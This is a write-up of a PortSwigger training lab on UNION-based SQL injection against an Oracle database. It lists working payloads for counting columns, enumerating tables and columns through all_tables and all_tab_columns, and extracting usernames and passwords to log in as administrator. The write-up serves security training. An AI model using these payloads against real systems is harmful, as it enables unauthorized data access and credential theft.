




# Write-up: SQL injection attack, listing the database contents on Oracle  
  
Lab-link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle  
Difficulty: Practitioner  
Status: Solved  

## Lab description  
  
 
## Objectives  
Retrieve contents on Oracle databases and log in as `administrator` using UNION-based SQL injection


## Background  
### UNION-based SQL injection  
`UNION` combines the results of two `SELECT` queries into a single result set  
The queries before and after `UNION` must have the same number of columns and compatible data types

### Finding the number of columns  
A common technique is using  
```text
ORDER BY 1
ORDER BY 2
ORDER BY 3
...
ORDER BY n
```  
to determine the number of columns that are being returned by the query  

### [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
According to Oracle database, we use `all_tables` to extract the list of tables and `all_tab_columns` the list of columns    

## Steps
### 1. Establish a baseline  
Firstly, I chose the Gifts category  
In Burp Suite, I intercepted this request and sent it to Repeater  
  

### 2. Determine the number of columns
By injecting the following payloads one by one: 
```text
' ORDER BY 1--
...
```
I got that there were 2 columns  

### 3. Confirm UNION works
Since there were 2 columns, the `UNION SELECT` statement must also return 2 columns.  
Since the DBMS is Oracle, the `SELECT` statement requires a `FROM` clause. I used Oracle's `DUAL` table to construct a valid query:
```text
' UNION SELECT NULL,NULL+FROM+dual--
```

### 4. Get admin's password  
I injected:   
```text
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
to get the list of tables.  
Among the returned table names, I identified the user table: **USERS_KVTHAB**  

Then, I injected:  
```text
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KVTHAB'--
```
I got 2 columns: **USERNAME_IGNUAD** and **PASSWORD_ZYDUUC**  

Now I injected:    
```text
'+UNION+SELECT+USERNAME_IGNUAD,PASSWORD_ZYDUUC+FROM+USERS_KVTHAB--
```
And admin's password was retrieved  
  
And the lab was solved  

